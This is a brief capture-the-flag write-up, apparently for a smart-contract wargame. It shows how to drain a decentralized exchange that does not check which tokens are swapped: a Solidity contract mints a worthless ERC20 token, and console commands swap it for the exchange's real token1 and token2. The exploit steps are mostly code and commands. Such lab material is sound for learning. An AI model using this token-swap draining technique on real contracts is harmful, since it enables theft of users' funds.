 The bug in this contract is that it does not validate that the swap is between same tokens, so here is ou advantage.
Create a contract that creates our token:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MYTOKEN is ERC20 {
    constructor(uint256 initialSupply) ERC20("MYTOKEN", "MT") {
        _mint(msg.sender, initialSupply);
    }
}
```
Now we can swap for 100 of token 1 and same for token 2.

MYTOKEN = (CONTRACT_ADDRESS)

t1 = await contract.token1()
t2 = await contract.token2()

await contract.swap(MYTOKEN, t1, 100)
await contract.swap(MYTOKEN, t2, 200)

We win :)
